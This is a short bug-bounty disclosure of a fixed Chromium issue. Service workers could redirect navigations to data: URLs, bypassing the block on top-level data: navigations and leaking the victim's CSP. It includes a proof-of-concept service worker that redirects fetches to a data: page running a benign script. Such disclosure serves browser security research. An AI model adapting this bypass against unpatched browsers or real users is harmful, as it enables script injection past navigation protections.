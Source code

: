 ```yaml
---
title: Service workers allowing redirects to data URLs (Awarded $4000)
---
```


Top-level navigations to `data:` are not normally allowed. <https://blog.mozilla.org/security/2017/11/27/blocking-top-level-navigations-data-urls-firefox-59/>  
This navigation inherits from the opener as shown for the origin in the protocol confirmation dialog and also leaks the victims CSP.

```js
self.addEventListener('fetch', function (event) {
  event.respondWith(
    Response.redirect('data:text/html,<script>prompt("Test")</script>')
  );
});
```

This issue was fixed in <https://issues.chromium.org/379337758>
